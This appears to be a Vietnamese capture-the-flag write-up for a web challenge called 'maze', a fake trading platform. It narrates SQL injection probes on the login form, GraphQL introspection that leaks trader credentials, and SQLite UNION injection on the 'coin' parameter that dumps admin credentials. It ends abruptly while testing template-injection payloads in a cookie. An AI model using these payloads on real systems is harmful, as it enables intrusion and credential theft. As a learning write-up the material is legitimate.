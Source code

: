 Mô tả challenge:
maze
477
maze corparate just started a new trading platform, let's hope its secure because I got all my funds over there

Okay, bây giờ thì triển thôi

Được link được cung cấp dẫn đến ngay một trang login.
Theo thói quen thì mỗi khi gặp trang như vậy, lỗi đầu tiên mình nghĩ ngay đến là SQLinjecition. 
Thử một vài payload để kiểm tra:

username=&password=
username=a&password=
username=&password=a
username=a&password=a
username=a'&password=a
username=a'--&password=a
username=a&password=a'
username='&password=a' OR '1'='1
username='&password=a' AND SLEEP(5);--
...

Ngoại trừ 3 payload đầu tiên trả về lỗi 500 do để trống parameter thì các payload còn lại đều k thành công. Vậy khả năng cao là không phải lỗi SQLinjection. 
Ngoài parameter trong POST request thì còn các vị trí có thể truyền payload như cookie, url, ...
Cookie không có gì vậy có thể là nằm ở url, kinh điển nhất, mình thử tìm file robots.txt và may mắn là đoán phát ăn luôn :v

File robots.txt chứa api của graphql playground. Thực hiện khai thác GraphQL back-end schema bằng lệnh query Instrospeciton.
Đem kết kết trả về đưa vào GraphQL Voyager để dễ nhìn hơn.
Có thể thấy trong TradeObject có field username và CoinObject chứa field password. 
Query để lấy giá trị của hai trường này:
{
  allTraders {
    edges {
      node {
        username
        id
        coins{
          edges {
            node {
              password
              title
              authorId
            }
          }
        }
      }
      
    }
  }
}
Kết quả trả về :
{
  "data": {
    "allTraders": {
      "edges": [
        {
          "node": {
            "username": "pop_eax",
            "id": "VHJhZGVyT2JqZWN0OjE=",
            "coins": {
              "edges": [
                {
                  "node": {
                    "password": "iigvj3xMVuSI9GzXhJJWNeI",
                    "title": "XFT",
                    "authorId": 1
                  }
                }
              ]
            }
          }
        }
      ]
    }
  }
}

Vậy là có đủ username và password, hí hửng đem đi login thì ... vẫn không được :)
Vậy là mình dậm chân tại chỗ với trang graphQL và cái username + password kiếm được mà xài không được. 
Sau đó thì được đàn anh khai mở tri thức cho mới thử đổi cái username thành tittle trong CoinObject và bùm, login thành công.

Nhưng mà vẫn chưa xong, login rồi flag vẫn chưa xuất hiện :(
Loanh quanh một hồi mình phát hiện mấy cái trang thông tin về coin này có url như sau:
http://207.180.200.166:9000/trade?coin=ten-coin

Nghĩa là GET parameter coin nhận được tên coin nào sẽ load thông tin của coin tương ứng. Điều này làm mình nghĩ đến mấy câu lệnh như
SELECT * FROM coins WHERE coin='ten-coin';

Tiếp tục thử bằng một số payload quen thuộc:
coin=xft'   => lỗi
coin=xft'-- => load thành công
coin=xft' OR 1=1 -- => load thành công

Vậy có thể khai thác lỗi SQLinjection trên parameter này.
Kiểm tra câu lệnh select được sử dụng truy vấn bao nhiêu cột bằng cách:
coin=' UNION SELECT '1  => lỗi 500
coin=' UNION SELECT '1','2  => thành công

Việc tiếp theo là tìm trong cơ sở dữ liệu này có chưa flag hoặc thông tin để dăng nhập trang admin hay không.
coin=' UNION SELECT '1',group_concat(table_name) FROM information_schema.tables --  => lỗi 500
Vậy không phải đang sử dụng mySQL, thử payload dành cho SQL Lite:
coin=' UNION SELECT '1',group_concat(name) FROM sqlite_master WHERE type='table  => thành công
Trong csdl có bảng admin, tìm tên các cột trong bảng này bằng câu lệnh sau
coin=' UNION SELECT '1',group_concat(sql) FROM sqlite_master WHERE tbl_name = 'admin

Lấy thông tin từ bảng admin:
coin=' UNION SELECT '1', group_concat(admin) FROM admin --
coin=' UNION SELECT '1', group_concat(password) FROM admin --

Account của admin là: admin:p0To3zTQuvFDzjhO9

Sau khi đăng nhập admin vẫn chưa thấy flag, dạo quanh trang một vòng không thấy cung cấp service gì để có hướng khai thác như 2 trang trước, mình định brute directory nhưng cũng có vẻ không khả thi nên khá stuck.
Quay lại với phương pháp tìm kiếm từ những nơi có thể gửi payload thì mình phát hiện trong cookie ngoài session để login còn có 'name'. 

Giá trị của 'name'  sẽ được hiển thị lên màn hình. Điều này làm mình nghĩ đến lỗi XSS nhưng có vẻ không hợp lí vì trang này không phải dạng blog hay comment để chiếm session cookie của admin (hơn nữa mình đã đăng nhập với tư cách admin rồi @@). Dù sao cũng check thử cho chắc:
name=<img src=1 onerror='alert(1)'> => Kết quả k thành công

Còn một lỗi cũng nhận giá trị từ user và hiển thị lên trang web mà mình nghĩ đến trong trường hợp này là SSTI. Thử payload:
{{1+1}}

1+1=2, vậy là mình đã đoán đúng, lỗi có thể khai thác là SSTI.

Thử tiếp payload 
{{self}} => <TemplateReference None>

{{self.__dict__}}

There is url_for and get_flash_message
Try {{url_for.__global__}}




